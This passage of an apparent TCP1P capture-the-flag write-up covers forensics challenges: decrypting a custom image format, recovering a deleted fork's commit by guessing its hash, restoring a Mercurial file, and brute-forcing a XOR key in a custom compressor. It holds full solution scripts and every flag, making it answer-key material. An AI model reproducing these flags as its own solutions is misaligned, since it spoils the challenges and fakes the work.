$decryptedContent = hLBKckxyHxqsbnKPcxuEltxXJgGMBEdtenTXDbrjJ -fILecontEnt $fILecontEnt -kEy $key -iv $iv

# Save the decrypted content as a binary file (flag.zip)
$decryptedFilePath = "C:\Users\vboxuser\Desktop\flag.zip"
[System.IO.File]::WriteAllBytes($decryptedFilePath, $decryptedContent)

Write-Host "Decryption complete: $decryptedFilePath"
```
Running the script for each file results in getting the zip password and decrypting the zip.


Hence, unlocking the zip using the password and reading the flag.


Flag: `TCP1P{thank_g0ddd_youre_able_to_decrypt_my_files}`

## Skibidi Format [Forensics]

Description: `So my friend just made a new image format and asked me to give him a test file, so I gave him my favorite png of all time. But the only thing I receive back is just my image with his new format and its “specification” file, don’t know what that is. Can you help me read this file?`

We are given a skibidi file and the relevant Image Format Specification.


Using the following python script decrypts the file and gives the flag.
```python
import struct
import zstandard as zstd
from Crypto.Cipher import AES
import numpy as np
from PIL import Image

def read_skibidi_file(file_path):
    with open(file_path, 'rb') as f:
        magic_number = f.read(4)
        if magic_number != b'SKB1':
            raise ValueError("Invalid Skibidi file format")

        width = struct.unpack('<I', f.read(4))[0]
        height = struct.unpack('<I', f.read(4))[0]
        channels = struct.unpack('<B', f.read(1))[0]
        compression_id = struct.unpack('<B', f.read(1))[0]
        aes_key = f.read(32)  # AES-256 key (32 bytes)
        aes_iv = f.read(12)   # GCM IV (12 bytes)
        rest = f.read()
        encrypted_data = rest[:-16]  
        auth_tag = rest[-16:]   

    return width, height, channels, compression_id, aes_key, aes_iv, encrypted_data, auth_tag

def decrypt_data(encrypted_data, aes_key, aes_iv, auth_tag):
    cipher = AES.new(aes_key, AES.MODE_GCM, nonce=aes_iv)
    decrypted_data = cipher.decrypt_and_verify(encrypted_data, auth_tag)  
    return decrypted_data

def decompress_pixel_data(compressed_data):
    dctx = zstd.ZstdDecompressor()
    # Specify the maximum output size to avoid the error
    decompressed_data = dctx.decompress(compressed_data, max_output_size=len(compressed_data) * 10)
    return decompressed_data


def convert_skibidi_to_png(skibidi_path, png_path):
    width, height, channels, _, aes_key, aes_iv, encrypted_data, auth_tag = read_skibidi_file(skibidi_path)
    decrypted_data = decrypt_data(encrypted_data, aes_key, aes_iv, auth_tag)

    print(f"Width: {width}, Height: {height}, Channels: {channels}")
    print(f"Size of decrypted data: {len(decrypted_data)}")

    pixel_data = decompress_pixel_data(decrypted_data)

    pixel_array = np.frombuffer(pixel_data, dtype=np.uint8)

    expected_size = height * width * channels
    if len(pixel_array) != expected_size:
        raise ValueError(f"Decompressed data size {len(pixel_array)} does not match expected size {expected_size}")

    
    image = Image.fromarray(pixel_array.reshape((height, width, 4)), mode='RGBA')

    image.save(png_path)

if __name__ == "__main__":
    skibidi_input_path = "suisei.skibidi"  
    png_output_path = "output.png"        
    convert_skibidi_to_png(skibidi_input_path, png_output_path)
```


Flag: `TCP1P{S3ems_L1k3_Sk1b1dI_T0il3t_h4s_C0nsUm3d_My_fr13nD_U72Syd6}`

## Doxxed [Forensics]

Description: `I recently forked a public repository on GitHub. After a few days I deleted my repo. However, my friend informed me that he are still able to access one of my commits from that fork which commit 4bxxxxx. Can you figure out how this happened? See the public repo below.`

We are given a github repo at https://github.com/notevilcorp/tools where only one commit exists.



But the description insinuates checking an orphanage commit, to do so, brute forcing the commit hash is necessary. we are given the 4b prefix and only the 4 rest possible alphaneumeric are needed. Using any online tool or a custom python script results in finding 4b155f.



It points to a docker image.


A suspicious file immediately checks out, exec binary. Upon loading it on Ghidra, we notice a bunch of hexadecimal data that are being sent using curl. Each part represents a base64 part, when they are reversed and concatenated, the flag is then revealed when decoding the whole base64.


Flag: `TCP1P{83fe034b2cfb09deafbb955b03392a083d8f83b2}`

## EncryptDecryptFile [Forensics]

Description: `My brother deleted an important file from the encrypt-decrypt-file repository`

We are given a python file with a .hg folder representing a mercurial repository.

```python
import argparse
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import os

key = bytes.fromhex('00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff')
iv = bytes.fromhex('0102030405060708090a0b0c0d0e0f10')

BLOCK_SIZE = 16

def encrypt_file(input_file, output_file):
    with open(input_file, 'rb') as f:
        plaintext = f.read()

    cipher = AES.new(key, AES.MODE_CBC, iv)

    padded_plaintext = pad(plaintext, BLOCK_SIZE)
    ciphertext = cipher.encrypt(padded_plaintext)

    with open(output_file, 'wb') as f:
        f.write(ciphertext)

    print(f'File encrypted successfully and saved as {output_file}')

def decrypt_file(input_file, output_file):
    with open(input_file, 'rb') as f:
        ciphertext = f.read()

    cipher = AES.new(key, AES.MODE_CBC, iv)

    decrypted_data = cipher.decrypt(ciphertext)
    plaintext = unpad(decrypted_data, BLOCK_SIZE)

    with open(output_file, 'wb') as f:
        f.write(plaintext)

    print(f'File decrypted successfully and saved as {output_file}')

def main():
    parser = argparse.ArgumentParser(description="Encrypt or decrypt a file using AES-256-CBC.")
    parser.add_argument('--encrypt', action='store_true', help="Encrypt the file.")
    parser.add_argument('--decrypt', action='store_true', help="Decrypt the file.")
    parser.add_argument('--input', type=str, required=True, help="Input file path.")
    parser.add_argument('--output', type=str, required=True, help="Output file path.")

    args = parser.parse_args()

    if args.encrypt:
        encrypt_file(args.input, args.output)
    elif args.decrypt:
        decrypt_file(args.input, args.output)
    else:
        print("Please specify --encrypt or --decrypt.")

if __name__ == "__main__":
    main()
```
Doing a hg status command reveals flag.enc file which can be restored via hg revert flag.enc
Then, using the provided python script, we are able to decrypt the flag file using `python main.py --decrypt --input flag.enc --output flag`


Flag: `TCP1P{introduction_to_hg_a82ffbe612}`

## Forevncrypt [Forensics]

Description: `After reading this article, I'm now hesitant to use xz-utils for compression: https://www.openwall.com/lists/oss-security/2024/03/29/4 As a result, I've been searching for alternative compression tools. I found one online, but unfortunately this tools are trash  because it has limited features. Specifically, I’m unable to decompress files that were compressed with a password. Could you please help me recover them?`

We are given an image file, which can be unsquashed to get the filesystem inside. There we get serveral encrypted .forevencrypt files.  

The bash history shows that a binary was used to encrypt all of them.
```
ls
clear
ls
clear
ls -lah
cd Desktop
../Downloads/forevncrypt note.txt
rm note.txt
cd Document
../Downloads/forevncrypt mydesign.odg
rm mydesign.odg
cd Music
../Downloads/forevncrypt myfavsong.mp3
rm myfavsong.mp3
cd Videos
../Downloads/forevncrypt superimportantfile.xyz -p thiswillbenotinrockyoubro
cd
```

By extracting a .pyc file from the binary then trying to decompile it, we get partial decompilation and three functions which are not complete, but they can be easily completed through a trial and error process. The following script works and decrypts all the files.

```python
# Source Generated with Decompyle++
# File: app.pyc (Python 3.12)

import argparse, binascii
import os
import sys
import lzma

class ForevncryptCompressor:
    
    def __init__(self, filename, password, action):
        self.filename = filename
        self.password = password
        self.action = action

    
    def xor(self, data, key):
        # XOR each byte of the data with the corresponding byte of the key
        return bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])

    
    def validate_file(self):
        if not os.path.isfile(self.filename):
            raise FileNotFoundError(self.filename)

    
    def header(self):
        HEADER = 'FOREVNCRYPT'
        return HEADER.encode('utf-8')

    
    def compress(self):
        with open(self.filename, 'rb') as f:
            target_file = f.read()
        compressed = lzma.compress(target_file)
        return compressed

    
    def decompress(self):
        with open(self.filename, 'rb') as f:
            target_file = f.read()
        header_length = len(self.header())
        check_header = target_file[:header_length]
        if check_header != self.header():
            raise Exception('Not a forevncrypt file')
        name_length = int.from_bytes(target_file[header_length:header_length + 4], 'big')
        name = target_file[header_length + 4:header_length + 4 + name_length]
        compressed = target_file[header_length + 4 + name_length:]
        name = name.decode('utf-8')
        data = lzma.decompress(compressed)
        return {'name': name, 'data': data}

    def encrypt_compress(self):
        compressed = self.compress()
        keygen = os.urandom(2)
        print("keygen : ",keygen)
        compressed = self.xor(compressed, keygen)
        result = self.xor(compressed, self.password.encode('utf-8'))
        return result

    def hexdump(self, data, label):
        hex_data = binascii.hexlify(data).decode('utf-8')
        print(f"Hexdump at {label}:")
        for i in range(0, len(hex_data), 32):
            line = hex_data[i:i+32]
            print(f"{line}")
            break
        print()

    def decrypt_decompress1(self):
        provided_filename='superimportantfile.xyz'
        with open(self.filename, 'rb') as f:
            target_file = f.read()

        # Step 1: Check the header
        header_length = len(self.header())
        check_header = target_file[:header_length]
        if check_header != self.header():
            raise Exception('Not a forevncrypt file')

        # Step 2: Use the provided filename and skip dynamic filename extraction
        print(f"Using provided filename: {provided_filename}")

        # Calculate the length of the provided filename (encoded as bytes)
        provided_filename_bytes = provided_filename.encode('utf-8')
        name_length = len(provided_filename_bytes)

        # The encrypted data starts right after the provided filename
        encrypted_data = target_file[header_length +4+ name_length:]

        # Show the hexdump of the encrypted data
        self.hexdump(encrypted_data, "Encrypted Data (after provided filename)")

        # Proceed with further steps (decryption, etc.)...
        name = provided_filename

        # Step 3: Extract the encrypted compressed data (skip keygen)
        encrypted_compressed_data = encrypted_data  # The data after the header and filename

        # Step 4: XOR decrypt with the password first
        decrypted_data = self.xor(encrypted_compressed_data, self.password.encode('utf-8'))

        # Step 5: Bruteforce keygen (2-byte values from 0x0000 to 0xFFFF)
        for possible_keygen in range(0x0000, 0x10000):
            keygen = possible_keygen.to_bytes(2, 'big')  # Convert the integer to 2-byte big-endian
            
            # XOR decrypt with the keygen
            compressed = self.xor(decrypted_data, keygen)

            # Step 6: Try to decompress the data
            try:
                data = lzma.decompress(compressed)
                print(f"Decompression successful with keygen: {keygen}")
                
                return {'name': name, 'data': data}
            except lzma.LZMAError:
                # If decompression fails, continue to the next possible keygen
                continue

        # If no valid keygen is found
        raise Exception("Failed to decrypt and decompress: no valid keygen found.")


    def archive(self):
        self.validate_file()
        file = self.header()
        if not self.password:
            if self.action:
                # Decompress
                print("Doing decompression")
                file_data = self.decompress()
                with open(file_data['name'], 'wb') as f:
                    f.write(file_data['data'])
            else:
                # Compress and archive
                print("Doing compression")
                file = self.header()
                file += len(self.filename).to_bytes(4, 'big')
                file += self.filename.encode('utf-8')
                file += self.compress()
                output_filename = output_filename = '.'.join(self.filename.split('.')[:-1]) + '.forevncrypt'
                with open(output_filename, 'wb') as f:
                    f.write(file)
        else:
            if self.action:
                # Decrypt and decompress
                print("Doing decrypted decompression")
                file_data = self.decrypt_decompress1()
                with open(file_data['name'], 'wb') as f:
                    f.write(file_data['data'])
            else:
                # Encrypt and compress
                print("Doing encrypted compression")
                file = self.header()
                file += len(self.filename).to_bytes(4, 'big')
                file += self.filename.encode('utf-8')
                file += self.encrypt_compress()
                #os.remove(self.filename)
                output_filename = output_filename = '.'.join(self.filename.split('.')[:-1]) + '.forevncrypt'
                with open(output_filename, 'wb') as f:
                    f.write(file)


if __name__ == '__main__':
    argparser = argparse.ArgumentParser(description = 'A custom file compressor made just for fun')
    argparser.add_argument('filename', help = 'file to execute')
    argparser.add_argument('-d', '--decompress', action = 'store_true', help = 'Decompress file')
    argparser.add_argument('-p', '--password', help = 'Password for encryption')
    args = argparser.parse_args()
    archive = ForevncryptCompressor(args.filename, args.password, args.decompress)
    archive.archive()
#         return None
#     return None
```
The xyz file which is a video contains the flag.


Flag: `TCP1P{3_challenge_in_one_category_ummm_hehe}`